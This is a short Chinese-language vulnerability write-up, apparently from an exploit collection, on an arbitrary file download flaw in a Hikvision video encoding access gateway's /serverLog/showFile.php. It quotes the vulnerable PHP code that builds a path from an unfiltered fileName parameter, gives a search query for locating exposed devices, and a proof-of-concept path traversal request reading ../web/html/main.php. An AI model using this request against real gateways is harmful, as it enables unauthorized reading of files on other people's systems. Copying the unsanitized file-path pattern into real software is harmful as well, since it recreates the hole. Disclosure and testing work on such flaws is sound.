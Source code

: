# HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面/serverLog/**showFile.php**的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630063019704-4b10f55b-d725-4866-b5aa-e73d638b2f27.png)

漏洞文件为 **showFile.php**, 其中 **参数 fileName** 没有过滤危险字符，导致可文件遍历下载



```php
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```



验证POC

```python
/serverLog/showFile.php?fileName=../web/html/main.php
```

![img](../../../.vuepress/public/img/1630063348342-40566a14-18d5-467b-b259-ad3c6888c456.png)